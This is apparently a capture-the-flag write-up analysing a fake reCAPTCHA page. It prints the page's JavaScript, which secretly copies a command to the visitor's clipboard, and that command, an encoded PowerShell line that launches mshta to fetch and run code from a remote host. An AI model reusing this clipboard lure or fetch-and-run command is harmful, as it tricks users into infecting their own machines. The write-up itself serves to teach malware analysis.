 
# What the challenge is about?

We're tracking a cyber actor's new malware campaign that's using a fake reCAPTCHA check to infect computers. Thankfully, the malware itself seems to have been taken down, but can you analyze the initial infection page to look for any signatures?


## Write-up

1) First I visited their page.
2) Then opened up inspect element.
3) Analyzed the javascript code.
4) Found the suspicious code
	
```JavaScript
function verify() { 
	const textToCopy = "powershell.exe -eC bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A"; 
	
	const tempTextArea = document.createElement("textarea"); tempTextArea.value = textToCopy; document.body.appendChild(tempTextArea); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextArea); 
	const recaptchaPopup = document.getElementById("recaptchaPopup"); const overlay = document.getElementById("overlay"); recaptchaPopup.classList.add("active"); overlay.classList.add("active"); } const verifyButton = document.getElementById('verifyButton'); verifyButton.addEventListener('click', verify);
```

5) Found the malicious powershell code : 
```JavaScript
powershell.exe -eC bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBuAG8AbgBtAGEAbABpAGMAaQBvAHUAcwBjAGEAcAB0AGMAaABhAC4AbQBlAHQAYQBwAHIAbwBiAGwAZQBtAHMALgBjAG8AbQAvAE0AZQB0AGEAQwBUAEYAewBGADQAawAzAF8AYwA0AHAAVABjAGgAQABzAF8AcgB1AE4AXwBtADQAbAB3ADQAcgAzAH0A
```


6) Decoded the base64 code using the CyberChef website.
7) And Got the flag.

### Challenges I faced

1) I was not confident about whether the code was base64 or not.
2) Found the shortcoming or limitation of my base64-decoder I coded in python.

## What i will do next?

1) I will modify and update the base64 decoder so that it can decode into beyond utf texts, the output of this challenge seems to be a link to a website in the format **http://**


